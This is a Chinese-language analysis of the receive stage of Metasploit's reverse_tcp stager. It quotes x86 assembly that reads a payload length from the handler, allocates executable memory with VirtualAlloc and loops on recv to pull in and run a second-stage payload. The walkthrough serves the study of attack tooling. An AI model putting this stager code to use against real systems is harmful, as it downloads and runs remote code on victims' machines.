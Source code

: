 asm_reverse_tcp函数中的汇编，大致有以下功能：加载socket相关dll，创建socket，绑定ip和端口，链接metasploit。就是做一些接收stage前的工作，为调用asm_block_recv接收stage做准备。

### asm_block_recv函数

首先调用recv函数接收msf发送过来的4字节数据，这4字节数据代表了即将发送过来的载荷的总大小。

```
push 0 ; flags 
push 4 ; length = sizeof( DWORD ); 
push esi ; the 4 byte buffer on the stack to hold the second stage length 
push edi ; the saved socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
call ebp ; recv( s, &amp;dwLength, 4, 0 );

```

首先压入了VirtualAlloc函数的参数，接着在第6行使用block_api_hash函数得到了VirtualAlloc函数的地址。

接着调用了VirtualAlloc函数用来申请一块具有RWX权限的内存空间，空间的大小是msf发送过来的四字节数据。

```
mov esi,[esi] ; dereference the pointer to the second stage length 
push 0x40 ; PAGE_EXECUTE_READWRITE 
push 0x1000 ; MEM_COMMIT 
push esi ; push the newly recieved second stage length. 
push 0 ; NULL as we dont care where the allocation is. 
push #{Rex::Text.block_api_hash('kernel32.dll', 'VirtualAlloc')} 
call ebp ; VirtualAlloc( NULL, dwLength, MEM_COMMIT, PAGE_EXECUTE_READWRITE ); 
; Receive the second stage and execute it... 
xchg ebx, eax ; ebx = our new memory address for the new stage 
push ebx ; push the address of the new stage so we can return into it

```

在第7行又调用了recv函数，接收msf发送过来的载荷，通过push压入的参数可以知道，是将接收到的载荷放到了刚刚申请的内存中。

需要注意的是，msf并不是一下子就把整个载荷发送了过来，而是把载荷分成了很多份分开发送的，所以下面通过cmp指令来判断是否接收完成，这里判断有没有接收完成的依据是通过，载荷的大小-接收的字节数来循环接收的。

```
read_more: 
    push 0 ; flags 
    push esi ; length 
    push ebx ; the current address into our second stage's RWX buffer 
    push edi ; the saved socket 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'recv')} 
    call ebp ; recv( s, buffer, length, 0 );//recv函数的返回值会放到eax寄存器中，返回值是接收了多少字节的数据 
    cmp eax, 0//将eax与0比较，如果eax大于或等于0那么就执行jge跳转到read_successful处执行 
    jge read_successful

```

下面的汇编主要是判断载荷有没有接收完成，如果没有接收完成就通过jnz跳转继续调用read_more下的代码，如果接收完成就直接ret。

```
read_successful: 
    add ebx, eax ; buffer += bytes_received//跳过接收过得载荷的内存，因为不可能一直往一个内存地址里面塞载荷 
    sub esi, eax ; length -= bytes_received, will set flags//减去对载荷的大小 
    jnz read_more ; continue if we have more to read//如果sub esi,eax不等于0那么就执行jnz跳回read\_more继续接收，如果等于0，代表接收载荷完成，就不会跳转到read_more而是直接retn返回 
    ret ; return into the second stage

```
